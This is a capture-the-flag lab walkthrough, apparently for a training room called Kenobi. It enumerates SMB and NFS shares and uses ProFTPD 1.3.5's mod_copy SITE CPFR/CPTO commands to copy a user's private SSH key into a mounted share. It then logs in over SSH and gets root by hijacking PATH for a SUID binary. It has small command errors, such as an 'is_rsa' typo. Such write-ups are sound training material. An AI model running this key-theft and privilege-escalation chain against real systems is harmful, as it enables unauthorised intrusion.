




# Kenobi Walkthrough

> Nashia Holloway | April 30th, 2020

## Task 1 Deploy the Vulnerable Machine

**2. Scan the machine with nmap, how many ports are open?**

```
nmap -sC -sV -A $IP -oN initial.nmap
```



## Task 2 Enumerating Samba for Shares

**1. How many shares have been found?**

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP -oN shares.nmap
```

There are 3 shares. IPC$ and print$ are normal to see, however there is also an anonymous share.



**2. Connect to the share and list the files. What file is seen?**

```
smbclient //$IP/anonymous
```

Once connected, use the command `dir` to list the contents of the directory to find the file `log.txt`.

**3. What port is FTP running on?**

FTP usually runs on port 21, and we can see from the initial nmap scan that that port is open.

**4. What mount can we see?**

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP -oN nfs.nmap
```

`/var` is the mount seen.

## Task 3 Gain Initial Access with ProFtpd

**1. Use netcat to connect to the FTP port. What is the version of ProFtpd?**

```
nc $IP 21
```

`1.3.5` is the version of ProFtpd.

**2. How many exploits for ProFtpd are there?**

```
searchsploit ProFtpd 1.3.5
```
There are 3 exploits.



The mod\_copy module exploit can be used to copy files/directories from one place to the other on the server. Any authenticated client can use this functionality.

**4. Copy Kenobi's private SSH key using SITE CPFR and SITE CPTO commands**

```
nc $IP 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

**5. Mount the /var/tmp directory to our machine**

```
mkdir /mnt/kenobiNFS
mount $IP:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

Once mounted, copy Kenobi's SSH key to our working directory and SSH into the box.

```
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 is_rsa
ssh -i id_rsa kenobi@$IP
```

Cat `user.txt` to grab the flag.

## Task 4 Privilege Escalation with Path Variable Manipulation

**1. Look for SUID bits. Which one looks out of the ordinary?**

```
find / -perm -u=s -type f 2>/dev/null
```

`/usr/bin/menu` doesn't look normal. Running it, 3 options appear.



Running `strings` on menu shows the commands used aren't running with their full path. Since the file runs as root, we can change our PATH to get a shell.

**3. Manipulate PATH to get a shell.**

```
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

Enter `1` to get a shell as root. The flag is in the /root directory.
